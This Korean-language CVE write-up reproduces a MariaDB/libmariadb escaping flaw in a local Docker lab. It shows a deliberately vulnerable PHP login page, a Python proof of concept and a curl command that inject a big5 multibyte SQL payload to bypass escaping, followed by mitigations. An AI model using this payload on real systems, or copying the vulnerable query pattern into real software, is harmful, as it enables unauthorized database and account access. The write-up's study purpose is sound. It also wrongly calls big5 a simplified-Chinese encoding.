




# CVE-2026-44172
- Contributor : [Q-stone](https://github.com/Q-stone) (qstone@kw.ac.kr)

## 개요

MariaDB는 MySQL server에서 파생되어 개발된 오픈소스 관계형 데이터베이스 관리 시스템 입니다.
- MariaDB 3.3.18, 3.4.8 버전(mariadb-package 기준 11.8.8-1 미만)에서 C 클라이언트 라이브러리인 libmariadb에서 제공하는 mysql_real_escape_string() 함수의 결함으로 발생했습니다.
- 해당 버전들에서 mysql_real_escape_string() 함수의 중국 간체자 인코딩 방식인 big5에 대한 처리 버그로 인한 SQLi가 가능합니다.
- CVSS 3.x 기준 NVD 9.8의 Critical 등급 취약점 입니다.

## 취약점 소개 및 구현 설명

**구성한 PHP 취약 환경**에 대하여 설명하겠습니다.
취약 환경을 구성함에 있어 PHP를 이용했을 때 상당히 편리하였습니다.

```PHP
$conn = @mysqli_connect('db', 'root', 'rootpass', 'vuln_db');
if (!$conn) {
    die("DB connection failed.");
}
//Legacy charset set function
mysqli_query($conn, "SET NAMES big5");
//mysqli_set_charset($conn, "big5");를 쓰면 해당 취약점이 야기되지 아니함. default 값인 utf8mb4에서 big5로 통일되기 때문.

$charset_name   = mysqli_character_set_name($conn);
$message        = '';
$query_display  = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = isset($_POST['username']) ? $_POST['username'] : '';
    $password = isset($_POST['password']) ? $_POST['password'] : '';

    $username_esc = mysqli_real_escape_string($conn, $username);
    $password_esc = mysqli_real_escape_string($conn, $password);

$query = "SELECT * FROM users WHERE username='{$username_esc}' AND password='{$password_esc}'";
    $query_display = $query;

    $result = mysqli_query($conn, $query);
    if ($result && mysqli_num_rows($result) > 0) {
        $row = mysqli_fetch_assoc($result);
        $message = "Login SUCCESS! Welcome, ". htmlspecialchars($row['username']);
    } else {
        $message = "Login FAILED! Invalid credentials";
    }
}
```
```mysqli_query()```로 SET NAMES big5를 쿼리로 하여 전송하면, MariaDB에서는 charset을 big5로 갱신합니다.
하지만, 쿼리에 불과하기 때문에 실질적인 PHP mysqlnd의 내부 charset은 big5로 갱신된 상태가 아닙니다.
따라서 mysqli_real_escape_string()은 mariaDB가 big5를 씀에도 불구하고 기본설정 값인 ```utf8mb4```를 기준으로 바이트를 계산하여 이스케이프에 대하여 잘못된 처리가 이뤄질 수 있습니다.

이를 해결하려면 PHP 환경에서 mariaDB와 동일한 charset을 지정하면 됩니다.
멀티바이트 취약점이 자주 일어나는 국가별 인코딩 방식인 big5, EUC-KR 대신 글로벌 표준인 ```utf8mb4 (utf-8)```로 통일하는 것이 바이트 계산에서 발생할 수 있는 근본적 문제를 해결할 수 있겠습니다.

보다 정확한 공격 원리에 대하여 다음과 같이 정의할 수 있겠습니다.
```
big5 charset의 멀티바이트 첫 바이트가 0xA5인데 이로 인해 이스케이핑이 우회될 수 있음.
1. 공격자가 username으로 0xA5'(0xA50x27) 전송
2. SET NAMES big5로 mariaDB의 charset은 big5로 설정되지만, PHP mysqlnd(mysqli_real_escape_string())에서는 기본 utf8mb4에서 charset 변경이 이뤄지지 않음
3. 0xA5를 싱글바이트 문자로 취급하게 되면서 mysqli_real_escape_string() 함수가 '(0x27)앞에 \(0x5C) 추가. (specialchars인 '에 대한 이스케이프를 수행하는 것)
	-> 0xA5 0x5C 0x27
4. DB 서버는 0xA55C를 유효한 big5 문자로 해석 -> 0x27(작은 따옴표 ')이 이스케이프되지 않음
5. SQLi 야기 -> ' OR 1=1-- - 가 쿼리에 주입
```

## 페이로드 구현 설명

페이로드는 공격 원리 그대로 구현하였습니다.
핵심 코드만 기재하였으며, 자세한 페이로드 구성은 PoC를 참조해주십시오.

```python
r = requests.post(base + "/", data=b"username=%A5%27+OR+1%3D1--+-&password=1q2w3e4r", headers={"Content-Type": "application/x-www-form-urlencoded"})

if "SUCCESS" in r.text:
    print("SQLi SUCCESS! mysqli_real_escape_string() bypassed")
else:
    print("Injection is Not Worked! Env Error.")
```

## 환경 구성 및 실행

- ```docker compose up -d``` 를 수행하여 테스트 환경을 실행하십시오.
- ```http://localhost:8080``` 또는 ```http://your-local-ip:8080```로 접속하여 정상적으로 환경이 구축되었는지 확인합니다.
	
- 정상적으로 구축된 경우 ```Username```에 ```admin```, ```Password```에 ```1q2w3e4r``` 을 대입하고 Submit 할 경우 아래와 같이 나타나야 합니다.
	
- 환경 구성이 완료 되었다면 페이로드 실행을 위해 ```PoC.py```를 실행하십시오.
	- ```Poc.py```를 실행하려면 requests 모듈이 설치되어 있어야 합니다. 
	- 설치되어 있지 않은 경우 ```pip install requests```를 통해 모듈을 먼저 설치하십시오.
	올바르게 실행된 경우 아래와 같이 SQLi가 되었음을 확인할 수 있습니다.
	
- curl을 통해서도 확인할 수 있습니다.
```Shell
curl -s -X POST http://127.0.0.1:8080/ -d "username=%A5%27+OR+1%3D1--+-&password=x"
```
- 올바르게 실행된 curl 명령 결과는 아래와 같습니다.
	
	Login SUCCESS로 보아, 취약점을 이용해 SQLi가 수행됨을 확인할 수 있습니다.

## 우회 방안 및 정리

- 본 취약점으로 공격자가 악의적 페이로드를 주입하여 SQLi를 야기할 수 있습니다.
- DB 서버와 클라이언트 측을 동일한 Charset으로 지정하는 것은 멀티바이트 문자열의 인코딩 처리로 인한 이스케이프 문제를 회피할 수 있는 좋은 방법입니다. PHP라면 ```mysqli_set_charset($conn, "big5");``` 를 사용할 수 있겠습니다.
- 근본적인 문제 해결을 위해 MariaDB 버전을 3.3.19, 3.4.9으로 업데이트 해야합니다.